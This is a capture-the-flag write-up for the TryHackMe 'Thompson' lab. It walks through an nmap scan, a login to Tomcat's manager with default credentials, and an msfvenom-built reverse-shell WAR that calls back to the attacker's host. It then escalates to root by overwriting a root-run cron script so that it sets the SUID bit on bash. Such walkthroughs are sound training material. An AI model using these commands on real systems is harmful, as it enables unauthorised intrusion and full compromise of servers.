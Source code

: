 # TryHackMe
------------------------------------
### IP: 10.10.97.171
### Name: Thompson
### Difficulty: Easy
--------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.97.171
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 08:10 CDT
Nmap scan report for 10.10.97.171
Host is up (0.21s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
|_  256 b5527e9c019b980c73592035ee23f1a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.48 seconds
```

Looking at the page on port 8080 we find an Apache Tomcat 8.5.5 page

![thompson_site.png](../assets/thompson_assets/thompson_site.png)

Using Feroxbuster we discover the `/manager` endpoint:

![thompson_dirs.png](../assets/thompson_assets/thompson_dirs.png)

This page prompts a login:

![thompson_login.png](../assets/thompson_assets/thompson_login.png)

And luckily for us we can use the default Tomcat credentials `tomcat:s3cret` to login:

![thompson_in.png](../assets/thompson_assets/thompson_in.png)

From here we should be able to upload a malicious `.war` file to spawn a reverse shell.

![thompson_war.png](../assets/thompson_assets/thompson_war.png)

### Exploitation

We can create the file using msfvenom:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.0.125 LPORT=443 -f war > shell.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes
```

We can upload and then deploy it, and view it on the site:

![thompson_shell_file.png](../assets/thompson_assets/thompson_shell_file.png)

Setting up a netcat listener we catch our shell when the file is clicked on:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.97.171] 37876
whoami
tomcat
hostname
ubuntu
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@ubuntu:/$ 
```

We can then grab the user.txt flag in Jack's home directory:

![thompson_user_flag.png](../assets/thompson_assets/thompson_user_flag.png)

### Privilege Escalation

Looking at the other files in Jack's directory, we see an id.sh bash script and it's output of test.txt.

![thompson_files.png](../assets/thompson_assets/thompson_files.png)

id.sh is simply running the `id` command and saving it to test.txt. Looking at test.txt we can see the user issuing the `id` command is root.

Also worth noting, is the fact that id.sh has fully open permissions, meaning we can write to it.

We can confirm that id.sh is being run every minute by root as a cronjob by using `cat /etc/crontab`:

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
```

Lets change the id.sh script to set the SUID bit on bash, which will be executed by root, and then drop into a root shell ourselves:

```
tomcat@ubuntu:/home/jack$ echo '/bin/chmod 4755 /bin/bash' > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
/bin/chmod 4755 /bin/bash
```

We can then wait one minute and run `/bin/bash -p` and we will drop into a root shell:

```
tomcat@ubuntu:/home/jack$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1001(tomcat) gid=1001(tomcat) euid=0(root) groups=1001(tomcat)
```

From here we can grab the final flag:

![thompson_root_flag.png](../assets/thompson_assets/thompson_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------
